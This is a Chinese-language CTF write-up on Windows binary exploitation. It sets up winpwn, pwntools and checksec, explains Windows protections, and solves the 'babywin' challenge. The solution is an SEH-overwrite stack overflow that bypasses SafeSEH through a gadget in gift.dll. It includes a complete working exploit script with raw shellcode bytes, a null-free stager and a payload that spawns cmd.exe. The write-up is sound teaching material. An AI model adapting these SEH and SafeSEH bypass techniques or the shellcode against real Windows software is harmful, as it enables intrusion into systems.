






windows pwn 学习

- - -

# windows pwn 学习

西湖论剑上有一道 windows pwn 的题目，来复现学习一下利用方法

## 环境搭建

### 安装 winpwn

首先 windows 上搭建 python 环境

然后用以下命令安装即可

```plain
pip3 install winpwn
pip3 install pefile
pip3 install keystone-engine
pip3 install install capstone
```

安装完成后用 `from winpwn import*` 来引用该库

### 安装 pwntools

虽然 winpwn 库和 pwntools 的功能差不多，但毕竟不是很熟悉，对于用惯了 pwntools 的作者来说还是有些束手束脚，要是有一个能用 pwntools 来本地攻击调试的方法就好了（pwntools 的 process 模块没法运行 exe 文件好像）

然后在网络上翻找的时候发现了这篇文章

[win-pwn 初探（二） - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11891?time__1311=mqmx0DBD9DyG0QeDsKoYKIhOo9eO7DGKx&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F62994)

里面介绍了这样一个工具：[win\_server](https://github.com/Ex-Origin/win_server)

瞌睡碰到枕头，跪谢 z1r0 和 Ex 两位师傅 orz

直接下载 zip 后解压，然后直接再文件夹或者终端中运行 `win_server.exe` + 目标程序 + 指定端口号即可

然后再脚本中用 remote 引用

remote("127.0.0.1",port)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205193006-e957f776-c419-1.png)

这样我们就可以用 pwntools 来更加便捷的编写攻击脚本和调试了

### 安装 checksec

在这个网站上下载 exe 文件即可

[Releases · Wenzel/checksec.py (github.com)](https://github.com/Wenzel/checksec.py/releases)

运行.\\checksec.exe exe 文件查看保护

效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205193001-e67135e0-c419-1.png)

### 保护介绍

NX、Canary 和 ASLR 都是老朋友了，不过他们在 windows 里并不叫这个，只是 checksec 根据功能套用了我们比较熟悉的名称而已，这里不过多介绍

Dynamic Base：编译选项，能够指示程序是否启用 ASLR

High Entropy VA：增加程序的地址空间布局随机化 (ASLR) 的程度，从而更难猜测特定内存区域的位置

SEH："Structured Exception Handling"，即结构化异常处理。SEH 是一种用于处理程序运行时异常情况的机制，比如内存访问错误、除零错误等。

SafeSEH：用于防止恶意软件利用程序的异常处理机制进行攻击。SafeSEH 通过在可执行文件的 PE 头部中添加安全异常处理表（SafeSEH table）的方式来实现。这个表包含了程序中所有有效的异常处理程序的地址，操作系统会在程序运行时检查异常处理程序的地址是否在这个表中，如果不在表中，操作系统会拒绝执行该异常处理程序，从而防止恶意软件利用异常处理机制来执行恶意代码。

Force Integrity：强制签名保护

Control Flow Guard：用于帮助防止恶意软件利用程序的控制流进行攻击。CFG 通过在编译时插入额外的代码来验证程序的控制流，以确保程序只能跳转到预先定义的合法目标，而不能跳转到未知的代码地址。这种技术可以有效防止一些常见的攻击，比如代码注入和代码重定向攻击。

Isolation：隔离保护

Authenticode：签名保护

### 安装 windbg

直接在 store 商店搜索安装即可

## 西湖论剑 pwn babywin

### checksec

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205192955-e2f23108-c419-1.png)

没有 NX 和 ASLR，开了 canary 也就是 GS

ida

```plain
int sub_401060()
{
  FILE *v0; // eax
  char v2; // [esp+0h] [ebp-8h]
  char *Buffer; // [esp+4h] [ebp-4h]

  v2 = gift();
  Buffer = (char *)malloc(0x1000u);
  sub_401180("your gift: %p\n", v2);
  sub_401180("give your data:", v2);
  v0 = _acrt_iob_func(0);
  fgets(Buffer, 200, v0);
  return sub_4010E0(Buffer);
}
```

```plain
char *__cdecl sub_4010E0(char *Source)
{
  char Destination[32]; // [esp+0h] [ebp-24h] BYREF

  strcpy(Destination, Source);
  return strcat(Destination, Source);
}
```

### 代码分析

非常明显的栈溢出，没开 NX 也就是说我们能直接打 ret2shellcode

但是细看就发现了问题，由于开启了 canary，要绕过 canary 就必然要输入 `'\x00'` 字节，但是构成栈溢出的 sub\_4010E0 函数中用 strcpy 和 strcat 直接杜绝了我们 `'\x00'` 的输入，使我们没法正常进行 ret2shellcode 的利用

在看了别的师傅的 wp 之后找到了这样一个结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205192946-dd56e43c-c419-1.png)

在覆盖时能够覆盖到这里，并且当我们覆盖了不应该被覆盖的值，导致 strcat 向非法地址写入，使得程序在函数运行时崩溃后，程序就会跳转到 `__except_handler4` 指向的地址中

但是还有一个问题，程序是开启了 `safeSEH` 的，如果我们直接写 shellcode 的话肯定无法绕过检测，所以在这里又要用到另一个机制：`safeSEH` 可以通过跳到没有开启 `SafeSEH` 的代码地址上来进行绕过，而通过对题目附件中给的两个 dll 来看，显然 `gift.dll` 符合要求。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205192938-d8aafd10-c419-1.png)

那么我们就可以通过写入跳转指令来使程序跳转到 `gift.dll` 中从而绕过 `safeSEH` 的检测

通过观察栈发现有一个是我们可以覆盖其指向的内存的栈地址`0019FF64`，也就是我们覆盖`__except_handler4`的位置的上方，可以利用这个 gadget 来实现跳到对应位置上

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205192932-d571f090-c419-1.png)

然后因为`gift.dll`没有`\x00`字节，所以我们可以在其后方布置`shellcode`，四字节 shellcode 可以用如下方式跳转到后面

```plain
jmp_8 = asm("jmp $+8")
```

这样就可以直接跳到后面去了

但是 getshell 所需要的字符量太大了，例如用 `kali` 的 `msfvenom` 生成的 `shellcode` 至少需要 200 余个字节，我们一次也就只能输入 200 字节

所以还要用 reread 的思想，再构造一个 fget 输入足量的字节到对应地址即可

当然要注意 shellcode 中不能有\\x00 字节

所以脚本如下：

```plain
from pwn import * 

pop2 = 0x271f16ac #: pop ecx ; pop ebp ; ret
#context.log_level='debug'
context.arch='i386'
p = remote("127.0.0.1",1234)

shell = b'U\x8b\xec\x83\xec SVW\xc7E\xe8u\x00c\x00\xc7E\xecr\x00t\x00f\xc7E\xfccm\xc6E\xfed\xc7E\xe0systf\xc7E\xe4em\xc6E\xe6\x00d\xa10\x00\x00\x00\x83\xc0\x0c\x8b\x00\x89E\xf8\x8b}\xf8\x83\xc7\x14\x8b\x17;\xd7t8\x8dd$\x00\x8br(\x8dM\xe83\xc0+\xf1\x8d\x9b\x00\x00\x00\x00\x8d\x0cFf\x8bL\r\xe8f;LE\xe8u\x06@\x83\xf8\x04|\xeb\x83\xf8\x04\x0f\x84\x82\x00\x00\x00\x8b\x12;\xd7u\xcc\x8b}\xf8\x8bG<3\xf6\x8b\\8x\x8bD;\x1c\x03\xdf\x03\xc7\x89E\xf0\x8bK \x8bC$\x03\xcf\x03\xc7\x89M\xec\x89E\xf49s\x18vI\x8b\x14\xb1\x8dE\xe0\x03\xd73\xc9+\xd0\x8dd$\x00\x8d\x04\x11\x8aD\x05\xe0:D\r\xe0u\x06A\x83\xf9\x06|\xed\x83\xf9\x06u\x18\x8bM\xf0\x8dE\xfcP\x8bE\xf4\x0f\xb7\x04p\x8b\x04\x81\x03\xc7\xff\xd0\x83\xc4\x04\x8bM\xecF;s\x18r\xb7_^[\x8b\xe5]\xc3\x8bz\x10\xeb\x82'

assert(b'\n' not in shell)

# eip = p32(0x62616167)
# payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
# offset = cyclic_find(payload,eip)
# success('offset : ' + hex(offset))

shellcode = '''
    mov ecx,0x01010101
    mov eax,0x14121bd           /*__acrt_iob_func*/
    xor eax,ecx 
    mov ebx,[eax]
    xor ecx,ecx
    push ecx
    call ebx
    pop ecx

    push eax

    mov ecx,0x01010101          /*fgets*/
    push ecx

    xor eax,eax
    push eax
emmm:
    pop eax
    test eax,eax
    jnz read
    call near ptr emmm
read:

    sub ax,0x3010
    push eax

    mov eax,0x14121c1
    xor eax,ecx
    mov ebx,[eax]
    call ebx

    pop ebx
    jmp ebx
'''

#shellcode = asm(shellcode)
shellcode = b'\xb9\x01\x01\x01\x01\xb8\xbd!A\x011\xc8\x8b\x181\xc9Q\xff\xd3YP\xb9\x01\x01\x01\x01Q1\xc0PX\x85\xc0u\x05\xe8\xf6\xff\xff\xfff-\x100P\xb8\xc1!A\x011\xc8\x8b\x18\xff\xd3[\xff\xe3'

print(shellcode)
assert(b'\n' not in shellcode and b'\x00' not in shellcode)
assert(len(shellcode) < 120)

print(shellcode)

payload = shellcode.ljust(120,b'\xAA') + b'\xeb\x86\xAA\xAA' + p32(pop2) + b'cmd.exe'

p.sendlineafter(b'data:',payload)

p.sendline(b'\xcc' + shell)
p.interactive()
```

这里的 shellcode 在 windows 下编译不了，放在 linux 虚拟机里编译好后使用

运行效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205192923-d003320e-c419-1.png)

在本地成功拿到了的 shell

## 参考

[https://mp.weixin.qq.com/s/-3yim0oUpSoyp8jP\_2dnwA](https://mp.weixin.qq.com/s/-3yim0oUpSoyp8jP_2dnwA)

[win pwn 初探（一） - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11865?time__1311=mqmx0DBD9DyDnDfx4BuQx20Qjdof3CWeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ft%2F11891%3Ftime__1311%3Dmqmx0DBD9DyG0QeDsKoYKIhOo9eO7DGKx%26alichlgref%3Dhttps%3A%2F%2Fxz.aliyun.com%2Fu%2F62994)
